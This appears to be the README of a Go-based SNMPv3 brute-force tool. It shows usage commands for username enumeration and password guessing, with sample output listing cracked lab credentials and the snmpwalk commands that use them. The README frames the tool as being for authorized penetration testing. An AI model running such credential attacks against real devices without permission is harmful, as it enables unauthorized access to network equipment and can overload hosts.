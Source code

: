 # SNMPv3 Brute Force Tool

A multi-threaded SNMPv3 authentication testing tool written in Go. This tool can perform username enumeration, basic SNMP enumeration, and password brute forcing with support for various authentication and privacy protocols. It can do this over both UDP and TCP.

## A note of caution
Go easy with the workers. The default is 10 but even that might be too much for some hosts. I tested up to 60 against Ubuntu on a local VM and the most I saw the CPU spike to was 10%. That might not be the case for network devices, so be sensible!

## Features

- SNMPv3 username enumeration
- Basic SNMP enumeration
- Password brute force with multi-threading
- Support for multiple authentication protocols (MD5, SHA, SHA224, SHA256, SHA384, SHA512)
- Support for multiple privacy protocols (AES, DES)
- Support for all SNMPv3 security levels (noAuthNoPriv, authNoPriv, authPriv)
- Progress tracking and detailed output
- TCP and UDP support

## Usage

### Basic Enumeration
~~~bash
./goSNMPwn --enum -ips 10.10.10.1 -protocol udp [-port 161]
=== Testing IP: 10.10.10.1 ===

SNMP Engine Details:
Authorization Engine ID (hex): 80001f88804cb907288c06ae6700000000
Authorization Engine Boots: 4
Authorization Engine Time: 12753

Parsed Authorization Engine ID:
Engine ID Format: 8
Enterprise ID: net-snmp (8072)
MAC Address: 4c:b9:07:28:8c:06
~~~

### Username Enumeration
User enumeration relies on the fact that SNMP responds in a specific way when users dont exist. This allows us to use large lists of potential users to enumerate valid ones prior to brute forcing.

~~~bash
./goSNMPwn --userenum -ips 10.10.10.1 -userfile testusers.txt [-port 161]

=== Testing IP: 10.10.10.1 ===
[+] Valid username found on 10.10.10.1: cisco
[+] Valid username found on 10.10.10.1: snmp

Valid usernames saved to: foundusers_20250213_185106.txt

~~~

As you can see, it drops these to a file so we can use them in further attacks


### Password Brute Force
~~~bash
./goSNMPwn --brute -ips 10.10.10.1 -userfile testusers.txt -passfile passwords.txt [-port 161] -workers 60
[*] Starting brute force with 60 workers
[*] Total combinations to test: 1272362
[*] Combinations breakdown:
    - NULL Auth: 2 (users:2)
    - AuthNoPriv: 2760 (users:2 × passwords:230 × auth_protocols:6)
    - AuthPriv: 1269600 (users:2 × passwords:230 × enc_passwords:230 × auth_protocols:6 × priv_protocols:2)
    - Total combinations: 1272362
[*] [NULL Auth] Testing cisco@10.10.10.1 (1/1272362)
[*] [AuthNoPriv] Testing cisco@10.10.10.1 (Protocol:SHA Auth:crest) (2/1272362)
[*] [AuthPriv] Testing cisco@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:crest) (3/1272362)
[*] [NULL Auth] Testing snmp@10.10.10.1 (4/1272362)
[*] [AuthNoPriv] Testing snmp@10.10.10.1 (Protocol:SHA Auth:crest) (5/1272362)
[*] [AuthPriv] Testing snmp@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:crest) (6/1272362)
[*] [AuthPriv] Testing cisco@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:none) (7/1272362)
[*] [AuthPriv] Testing snmp@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:none) (8/1272362)
[*] [AuthPriv] Testing cisco@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:PASSWORD) (9/1272362)
[*] [AuthPriv] Testing snmp@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:PASSWORD) (10/1272362)
[*] [AuthPriv] Testing cisco@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:traffic) (11/1272362)
[*] [AuthPriv] Testing snmp@10.10.10.1 (Protocols:SHA/AES Auth:crest Priv:traffic) (12/1272362)
---snip---
[+] [AuthPriv] SUCCESS: cisco@10.10.10.1 (Protocols:MD5/AES Auth:password Priv:password)
[*] [AuthNoPriv] Testing cisco@10.10.10.1 (Protocol:MD5 Auth:sonicwall) (6346/30362)

Valid Users:
==================
|---------------|----------|-----------|---------------|---------------|---------------|---------------|---------------------------------------------------------------------------------------|
|     HOST      | USERNAME | AUTH TYPE | AUTH PROTOCOL | AUTH PASSWORD | PRIV PROTOCOL | PRIV PASSWORD |                                        COMMAND                                        |
|---------------|----------|-----------|---------------|---------------|---------------|---------------|---------------------------------------------------------------------------------------|
| 10.10.10.1    | snmp     | authPriv  | SHA           | password      | AES           | password      | snmpwalk -v3 -l authPriv -u snmp -a SHA -A password -x AES -X password 10.10.10.1  |
|---------------|----------|-----------|---------------|---------------|---------------|---------------|---------------------------------------------------------------------------------------|
| 10.10.10.1    | cisco    | authPriv  | MD5           | password      | AES           | password      | snmpwalk -v3 -l authPriv -u cisco -a MD5 -A password -x AES -X password 10.10.10.1 |
|---------------|----------|-----------|---------------|---------------|---------------|---------------|---------------------------------------------------------------------------------------|
~~~
The tool will automatically skip to the next user when it finds a working credential pair to save time.
The tool provides you the SNMP Walk string required to validate this for yourself.

## Password Lists
I included some basic ones for both the password and encryption passphrases, but you should really build your own to suit the environment you are testing. Worth considering that there are a lot of potential combinations to go through anyway, as systems can be configured with a per user encryption & hash algorithm + a password and encryption password.

## Command Line Arguments

- `-ips`: Comma-separated list of IP addresses to test
- `-ipfile`: File containing list of IPs (one per line)
- `-userfile`: File containing usernames to test
- `-passfile`: Password list for brute force
- `-encfile`: File containing encryption passwords (optional)
- `-enum`: Perform basic SNMP enumeration
- `-userenum`: Perform username enumeration
- `-brute`: Perform password brute force
- `-protocol`: SNMP protocol to use (udp or tcp)
- `-workers`: Number of concurrent workers for brute force (default: 10)
- `-port`: SNMP port number (default: 161)


## Security Considerations

This tool is intended for authorized security testing only. Ensure you have permission to test the target systems before use. 

